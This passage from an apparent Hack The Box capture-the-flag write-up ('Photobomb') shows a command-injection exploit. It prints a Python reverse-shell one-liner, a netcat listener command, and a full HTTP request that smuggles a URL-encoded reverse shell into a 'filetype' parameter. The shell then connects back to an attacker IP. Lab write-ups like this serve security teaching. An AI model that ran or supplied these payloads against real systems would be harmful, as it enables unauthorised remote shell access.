 https://www.revshells.com/ and we are going to use this to generate a shell for python3 #1 and we get this.
```bash
export RHOST="myipaddress";export RPORT=8888;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
Now we can start a new netcat listener on the port we entered for RPORT, `8888`. By doing `nc -lnvp 8888`.
Then we can use the generated payload, but first we replace all spaces with `+`'s. This is the payload we can add behind the text in the filetype parameter.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://photobomb.htb/printer
Content-Type: application/x-www-form-urlencoded
Content-Length: 398
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.137%22%2C8888%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27&dimensions=3000x2000
```

And our reverse shell has connected.

![](/assets/CTFs/HTB/Photobomb/reverse-shell-callback.png)

Now we can send commands to the other system. Lets try running `id`, and it responded with something
```bash
$ id
# id
# uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```

Hmm, a bit strange, it returns back what command you send.
This is because this reverse shell isn't very stable yet, but it does provide us with a starting point.
There is something you can do to stabilize a reverse shell and this article goes deeper into it [https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/).
